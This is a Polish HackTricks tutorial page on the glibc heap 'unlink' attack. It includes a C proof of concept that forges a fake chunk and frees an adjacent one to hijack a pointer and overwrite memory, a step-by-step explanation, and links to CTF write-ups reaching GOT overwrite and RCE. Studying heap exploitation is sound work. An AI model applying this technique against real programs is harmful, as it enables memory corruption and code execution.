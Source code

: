 # Atak Unlink

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

Kiedy ten atak został odkryty, głównie pozwalał na WWW (Write What Where), jednak dodano **sprawdzenia**, co sprawiło, że nowa wersja ataku stała się bardziej interesująca, ale również bardziej złożona i **bezużyteczna**.

### Przykład kodu:

<details>

<summary>Kod</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Atak nie działa, jeśli są używane tcaches (po wersji 2.26)

### Cel

Ten atak pozwala **zmienić wskaźnik do fragmentu tak, aby wskazywał 3 adresy przed samym sobą**. Jeśli nowa lokalizacja (otoczenie, gdzie znajdował się wskaźnik) zawiera interesujące rzeczy, takie jak inne kontrolowalne alokacje / stos..., możliwe jest odczytanie/nadpisanie ich w celu spowodowania większej szkody.

* Jeśli ten wskaźnik znajdował się na stosie, ponieważ teraz wskazuje 3 adresy przed samym sobą i użytkownik potencjalnie może go odczytać i zmodyfikować, będzie możliwe wyciekanie poufnych informacji ze stosu lub nawet modyfikowanie adresu powrotu (może) bez dotykania canary
* W przykładach CTF ten wskaźnik znajduje się w tablicy wskaźników do innych alokacji, dlatego, ustawiając go 3 adresy przed i mając możliwość odczytu i zapisu, można sprawić, że inne wskaźniki wskazują na inne adresy.\
Ponieważ użytkownik potencjalnie może odczytywać/zapisywać również inne alokacje, może wyciekać informacje lub nadpisywać nowe adresy w dowolnych lokalizacjach (np. w GOT).

### Wymagania

* Pewna kontrola w pamięci (np. stosie), aby utworzyć kilka fragmentów, nadając wartości niektórym atrybutom.
* Wyciek stosu w celu ustawienia wskaźników fałszywego fragmentu.

### Atak

* Istnieją dwa fragmenty (fragment1 i fragment2)
* Atakujący kontroluje zawartość fragmentu1 i nagłówki fragmentu2.
* W fragmencie1 atakujący tworzy strukturę fałszywego fragmentu:
* Aby ominąć zabezpieczenia, upewnia się, że pole `size` jest poprawne, aby uniknąć błędu: `corrupted size vs. prev_size while consolidating`
* a pola `fd` i `bk` fałszywego fragmentu wskazują tam, gdzie przechowywany jest wskaźnik fragmentu1 z przesunięciami odpowiednio -3 i -2, więc `fake_chunk->fd->bk` i `fake_chunk->bk->fd` wskazują na pozycję w pamięci (stosie), gdzie znajduje się rzeczywisty adres fragmentu1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Nagłówki fragmentu2 są modyfikowane, aby wskazywać, że poprzedni fragment nie jest używany i że rozmiar to rozmiar zawartego fałszywego fragmentu.
* Gdy drugi fragment zostanie zwolniony, to następuje odłączenie tego fałszywego fragmentu:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Wcześniej sprawiono, że `fake_chunk->fd->bk` i `fake_chunk->fd->bk` wskazują na to samo miejsce (lokalizację na stosie, gdzie przechowywany jest `fragment1`), więc był to poprawny lista połączona. Ponieważ **oba wskazują na tę samą lokalizację**, tylko ostatni (`fake_chunk->bk->fd = fake_chunk->fd`) będzie **działać**.
* Spowoduje to **nadpisanie wskaźnika do fragmentu1 na stosie adresem (lub bajtami) przechowywanym 3 adresy wcześniej na stosie**.
* Dlatego jeśli atakujący mógłby ponownie kontrolować zawartość fragmentu1, będzie mógł **pisać wewnątrz stosu**, mając potencjalnie możliwość nadpisania adresu powrotu, pomijając canary, oraz modyfikowania wartości i wskaźników zmiennych lokalnych. Nawet ponownie modyfikując adres fragmentu1 przechowywany na stosie na inną lokalizację, jeśli atakujący mógłby ponownie kontrolować zawartość fragmentu1, będzie mógł pisać w dowolnym miejscu.
* Należy zauważyć, że to było możliwe, ponieważ **adresy są przechowywane na stosie**. Ryzyko i eksploatacja mogą zależeć od **miejsca, gdzie są przechowywane adresy do fałszywego fragmentu**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Referencje

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Chociaż byłoby dziwne znalezienie ataku unlink nawet w CTF, tutaj znajdziesz kilka rozwiązań, gdzie ten atak był używany:
* Przykład CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* W tym przykładzie zamiast stosu jest tablica adresów przydzielonych dynamicznie. Atak unlink jest wykonywany, aby możliwe było zaalokowanie fragmentu tutaj, umożliwiając kontrolowanie wskaźników tablicy adresów przydzielonych dynamicznie. Następnie istnieje inna funkcjonalność, która pozwala modyfikować zawartość fragmentów w tych adresach, co pozwala wskazywać adresy na GOT, modyfikować adresy funkcji w celu uzyskania wycieków i RCE.
* Inny przykład CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Tak jak w poprzednim przykładzie, istnieje tablica adresów alokacji. Możliwe jest wykonanie ataku unlink, aby sprawić, że adres pierwszej alokacji wskazuje kilka pozycji przed rozpoczęciem tablicy, a następnie nadpisać tę alokację na nowej pozycji. Dlatego możliwe jest nadpisanie wskaźników innych alokacji, aby wskazywały na GOT atoi, uzyskać wyciek libc, a następnie nadpisać atoi GOT adresem do jednego gadżetu.
* Przykład CTF z niestandardowymi funkcjami malloc i free, które wykorzystują podatność bardzo podobną do ataku unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Istnieje przepełnienie, które pozwala kontrolować wskaźniki FD i BK niestandardowego malloc, które zostaną (niestandardowo) zwolnione. Ponadto sterta ma ustawiony bit exec, więc możliwe jest wyciekanie adresu sterty i wskazywanie funkcji z GOT na kawałek sterty z shellcodem do wykonania.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF** sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
